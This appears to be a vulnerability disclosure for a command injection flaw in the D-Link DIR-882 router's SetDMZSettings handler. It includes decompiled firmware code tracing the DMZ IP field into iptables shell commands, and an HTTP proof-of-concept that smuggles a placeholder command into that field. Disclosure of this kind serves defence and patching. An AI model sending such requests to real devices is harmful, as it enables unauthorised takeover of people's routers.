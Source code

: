 # Command Injection Vulnerability in `SetDMZSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-882 Router                                        |
| Firmware Version     | DIR882A1_FW102B02                                            |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `prog.cgi` (input handling) and `librcm.so` (execution of `iptables` rules) |
| Data Flow            | Cross-binary propagation via NVRAM variables (`nvram_safe_set` → `nvram_safe_get`) |
| Exploit Path         | Attacker-controlled input `SetDMZSettings/IPAddress` → stored in NVRAM (`dmz_ipaddr`) → retrieved by `librcm.so` (`v51`) → concatenated into `iptables` commands → executed by `twsystem` |
| Prerequisites        | No sanitization of DMZ IP address field; attacker can inject arbitrary shell commands through the web interface. |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_4455BC(int a1)
{
  ...
  VarString = webGetVarString(a1, "/SetDMZSettings/Enabled");
  if ( !VarString )
    return WebsSetResponseResult(a1, 11);
  v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress");
  if ( !v3 )
    return WebsSetResponseResult(a1, 11);
  if ( !strcmp(VarString, "true") )
    nvram_safe_set("dmz_enable", "1");
  else
    nvram_safe_set("dmz_enable", "0");
  nvram_safe_set("dmz_ipaddr", v3);
  ...
}

// librcm.so
int DMZ_run()
{
  ...
  v5 = nvram_safe_get("dmz_enable");
  if ( !strcmp(v5, "1") )
  {
    DMZ_chain_init();
    v51 = (const char *)nvram_safe_get("dmz_ipaddr");
    ...
    while ( 1 )
    {
      ... 
      if ( *v51 )
      {
        if ( *wan_ipaddr )
        {
          if ( *wan_ifname )
          {
            ...
            snprintf(
              v48,
              256,
              "iptables -t nat -A %s -d %s -j DNAT --to-destination %s 2>/dev/null",
              "DMZ_PREROUTING",
              wan_ipaddr,
              v51);
            twsystem(v48, 1);
            snprintf(
              v48,
              256,
              "iptables -t filter -A %s -i %s -d %s -j ACCEPT 2>/dev/null",
              "DMZ_FORWARD",
              wan_ifname,
              v51);
            twsystem(v48, 1);
            if ( v50 > 0 )
            {
              ...
              do
              {
                ...
                if ( *v30 )
                {
                  if ( strcmp(v30, "0.0.0.0") )
                  {
                    if ( sscanf(v30, "%d.%d.%d.%d", &v43, &v44, &v45, &v46) == 4 )
                    {
                      ...
                      if ( (_DWORD *)v36 == v55 )
                      {
                        snprintf(
                          v48,
                          256,
                          "iptables -t nat -A %s -d %s -s %s -j ACCEPT 2>/dev/null",
                          "DMZ_POSTROUTING",
                          v51,
                          v30);
                        twsystem(v48, 1);
                        snprintf(
                          v48,
                          256,
                          "iptables -t nat -A %s -s %d.%d.%d.%d/%s -d %s "
                          "-j SNAT --to-source %s 2>/dev/null",
                          "DMZ_POSTROUTING",
                          v39 & v43,
                          v40 & v44,
                          v41 & v45,
                          v42 & v46,
                          v31,
                          v51,
                          v54);
                        twsystem(v48, 1);
                      ...
}
```

3. **Vulnerable Binaries:**  `prog.cgi` and `librcm.so` (with cross-binary data flow).
4. 0-Day Command Injection Exploitation Path: 
   - In `prog.cgi`, line 8 executes `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")`. The input is subsequently stored at line 15 via `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27 retrieves the stored value through `v51 = (const char *)nvram_safe_get("dmz_ipaddr")`. After string concatenation, the data is passed into line 46 `twsystem(v48, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 8 executes `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")`. The input is subsequently stored at line 15 via `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27 retrieves the stored value through `v51 = (const char *)nvram_safe_get("dmz_ipaddr")`. After string concatenation, the data is passed into line 54 `twsystem(v48, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 8 executes `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")`. The input is subsequently stored at line 15 via `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27 retrieves the stored value through `v51 = (const char *)nvram_safe_get("dmz_ipaddr")`. After string concatenation, the data is passed into line 77 `twsystem(v48, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 8 executes `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")`. The input is subsequently stored at line 15 via `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27 retrieves the stored value through `v51 = (const char *)nvram_safe_get("dmz_ipaddr")`. After string concatenation, the data is passed into line 91 `twsystem(v48, 1)`, leading to a command injection vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Connection: close

SetDMZSettings/Enabled=true
&SetDMZSettings/IPAddress=192.168.0.100;`INJECTED_COMMAND`
```